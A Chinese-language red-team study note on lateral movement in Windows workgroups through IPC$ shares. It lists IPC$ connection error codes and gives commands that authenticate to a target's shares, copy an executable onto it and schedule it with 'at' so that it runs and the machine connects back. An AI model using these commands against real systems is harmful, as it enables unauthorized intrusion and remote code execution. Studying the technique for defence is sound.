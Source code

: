 # 内网横向

- 学习资料
  - [内网渗透之PTH&PTT&PTK](https://www.cnblogs.com/bmjoker/p/10355979.html)
  - [PTH攻击总结](https://blog.csdn.net/systemino/article/details/106366929)
  - [1earn](https://github.com/No-Github/1earn/blob/8026439435b6bb2f2d37cec07b577d24b49a783c/1earn/Security/RedTeam/OS%E5%AE%89%E5%85%A8/Windows%E5%AE%89%E5%85%A8.md)




### 工作组

#### **横向渗透at&IPC$ 明文上线**

- ipc$
  - IPC$(Internet Process Connection) 是共享 "命名管道" 的资源，它是为了让进程间通信而开放的命名管道，可以通过验证用户名和密码获得相应的权限, 在远程管理计算机和查看计算机的共享资源时使用。

- 条件
  - 必须开启 139 和 445 端口.一般通过账号密码可以登录对应权限的目标共享文件夹。如果是管理员就会访问到 `C$`默认共享文件夹。可以使用 `net share` 查看共享的文件夹。


- 报错集锦

```bash
# 建立IPC常见的错误代码
（1）5：拒绝访问，可能是使用的用户不是管理员权限，需要先提升权限
（2）51：网络问题，Windows 无法找到网络路径
（3）53：找不到网络路径，可能是IP地址错误、目标未开机、目标Lanmanserver服务未启动、有防火墙等问题
（4）67：找不到网络名，本地Lanmanworkstation服务未启动，目标删除ipc$
（5）1219：提供的凭据和已存在的凭据集冲突，说明已建立IPC$，需要先删除
（6）1326：账号密码错误
（7）1792：目标NetLogon服务未启动，连接域控常常会出现此情况
（8）2242：用户密码过期，目标有账号策略，强制定期更改密码

# 建立IPC失败的原因
（1）目标系统不是NT或以上的操作系统
（2）对方没有打开IPC$共享
（3）对方未开启139、445端口，或者被防火墙屏蔽
（4）输出命令、账号密码有错误

```


**开启ipc$**

net share ipc$

**开启admin$**

net share admin$

**连接和上线命令**

```bash
net use \\server\ipc$"password" /user:username # 工作组
net use \\server\ipc$"password" /user:domain\username #域内
dir \\xx.xx.xx.xx\C$\                # 查看文件列表
copy \\xx.xx.xx.xx\C$\1.exe 1.exe  # 下载文件
copy 1.bat \\xx.xx.xx.xx\C$  # 复制文件
net use \\xx.xx.xx.xx\C$\1.exe /del  # 删除IPC
net view xx.xx.xx.xx                # 查看对方共享
at \\IP 时间 c:\1.exe    #添加计划任务
# 等待上线即可
```
